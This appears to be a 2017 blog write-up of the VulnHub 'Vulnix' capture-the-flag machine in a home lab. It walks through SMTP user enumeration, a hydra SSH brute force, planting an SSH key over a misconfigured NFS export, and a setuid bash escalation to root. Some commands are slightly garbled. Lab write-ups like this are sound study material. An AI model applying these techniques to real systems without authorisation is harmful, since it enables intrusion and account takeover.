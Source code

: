 ```yaml
---
layout: post
title:  "Vulnix"
date:   2017-07-28 12:34
categories: ctf
---
```


Vulnix is a boot-to-root vulnerable machine found on [VulnHub](https://www.vulnhub.com/entry/hacklab-vulnix,48/). I pulled this down and ran it in Virtualbox.

Getting started we will us nmap to enumerate open ports.

    nmap -p -sV 192.168.1.130

{% highlight text %}
Starting Nmap 7.40 ( https://nmap.org ) at 2017-07-16 14:02 EDT
Nmap scan report for vulnix.hsd1.co.comcast.net (192.168.1.111)
Host is up (0.00034s latency).
Not shown: 65518 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp open smtp Postfix smtpd
79/tcp open finger Linux fingerd
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
143/tcp open imap Dovecot imapd
512/tcp open exec?
513/tcp open login
514/tcp open tcpwrapped
993/tcp open ssl/imap Dovecot imapd
995/tcp open ssl/pop3 Dovecot pop3d
2049/tcp open nfs_acl 2-3 (RPC #100227)
39127/tcp open mountd 1-3 (RPC #100005)
46013/tcp open mountd 1-3 (RPC #100005)
51380/tcp open status 1 (RPC #100024)
51502/tcp open mountd 1-3 (RPC #100005)
51986/tcp open nlockmgr 1-4 (RPC #100021)
MAC Address: 08:00:27:53:D1:AF (Oracle VirtualBox virtual NIC)
Service Info: Host: vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.42 seconds
{% endhighlight %}

![Initial nmap](/blog/assets/images/vulnix/initial_nmap.png)

We can use the postfix server to check for existing users on the machine using the VRFY command.

{% highlight text %}
nc 192.168.1.130 25
220 vulnix ESMTP Postfix (Ubuntu)
EHLO example.com
250-vulnix
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN
VRFY root
252 2.0.0 root
VRFY aott
550 5.1.1 <aott>: Recipient address rejected: User unknown in local recipient table
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table
VRFY vulnix
252 2.0.0 vulnix
VRFY dovecot
252 2.0.0 dovecot
{% endhighlight %}

Using the `smtp-user-enum` tool we can automate this and use a wordlist.

{% highlight text %}
# smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.130
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

----------------------------------------------------------
| Scan Information |
----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/metasploit/unix_users.txt
Target count ............. 1
Username count ........... 112
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............

######## Scan started at Sat Jul 29 17:33:28 2017 #########
192.168.1.130: ROOT exists
192.168.1.130: backup exists
192.168.1.130: bin exists
192.168.1.130: daemon exists
192.168.1.130: games exists
192.168.1.130: gnats exists
192.168.1.130: irc exists
192.168.1.130: libuuid exists
192.168.1.130: lp exists
192.168.1.130: list exists
192.168.1.130: man exists
192.168.1.130: mail exists
192.168.1.130: messagebus exists
192.168.1.130: news exists
192.168.1.130: nobody exists
192.168.1.130: postmaster exists
192.168.1.130: proxy exists
192.168.1.130: root exists
192.168.1.130: sshd exists
192.168.1.130: sync exists
192.168.1.130: sys exists
192.168.1.130: syslog exists
192.168.1.130: user exists
192.168.1.130: uucp exists
192.168.1.130: www-data exists
######## Scan completed at Sat Jul 29 17:33:28 2017 #########
25 results.

112 queries in 1 seconds (112.0 queries / sec)
{% endhighlight %}

We can easily write all the existing users to a file to be used later.

    smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 192.168.1.130 | grep exists | cut -d' ' -f2 > users_exist.txt

Using this list, we can use the fact that the finger port is open to see which of these users have a login shell.

    for i in $(cat users_exist.txt); do finger $i@192.168.1.130; done

![finger](/blog/assets/images/vulnix/fingering.png)

Knowing the users that have a login shell, we stuff those into a file called users.txt and use hydra to bruteforce a login.

    hydra -L users.txt -P /usr/share/SecLists/Passwords/10k_most_common.txt 192.168.1.130 ssh

![hydra](/blog/assets/images/vulnix/hydra.png)

Now that we have a valid username and password (user:letmein) we can use ssh to get in and start enumeration on the box.

![ssh with low priv](/blog/assets/images/vulnix/ssh-in.png)

On the box I start enumeration using steps here https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

![/etc/exports](/blog/assets/images/vulnix/exports.png)

Hmmm

    /home/vulnix	*(rw,root_squash)

Looking this up I found that the * here is a wildcard meaning that /home/vulnix can be mounted from anywhere. So, let's mount it to my machine.

![mount permission denied](/blog/assets/images/vulnix/mount_with_permission_denied.png)

Well, we can't get in there even with root. That's what that root_squash setting does. We are only going to be able to get in there using the vulnix user, so we create a local vulnix user with the same uid(2008) and gid(2008) as the remote box.

![/etc/passwd](/blog/assets/images/vulnix/passwd_file.png)

After creating this user and switching, we are able to get into the /mnt/vulnix directory. Here we will create an ssh key that will allow us to ssh directly to the machine using the vulnix user.

![Mounted as vulnix](/blog/assets/images/vulnix/mounted-as-vulnix.png)

    ssh-keygen -t rsa

![create ssh key](/blog/assets/images/vulnix/create_ssh_key.png)

![Move pub key](/blog/assets/images/vulnix/mv_ssh_pub_key.png)

    ssh vulnix@192.168.1.130 -i /home/vulnix/.ssh/id_rsa

![SSH as vulnix](/blog/assets/images/vulnix/ssh_with_vulnix.png)

Let's see what the vulnix user can do with `sudo -l`

![sudo -l](/blog/assets/images/vulnix/sudo_l.png)

So we are able to edit the /etc/exports file and change that root_squash to no_root_squash.

    editsudo /etc/export

After changing this file, we would need to restart networking for the changes to take effect. Sadly we don't have a user that can do that so we just manually reboot this. Obviously in a real situation we don't have control to do this so we might have to get creative.

Prior to rebooting, let's copy /bin/bash to the /home/vulnix directory for some setuid fun.

![copy bash](/blog/assets/images/vulnix/copy_bash.png)

After the reboot, we remount /home/vulnix and are now able access that directory with the root user.

![set uid](/blog/assets/images/vulnix/setuid_bash.png)

```
cd /mnt/vulnix
chown root bash
chmod 4755 bash
```

Now we have everything we need to escalate to root.

On the victim machine as the vulnix user, we run `bash -p` to keep permissions of the user.

![Escalate](/blog/assets/images/vulnix/escalation_to_root.png)

BOOM! Done.
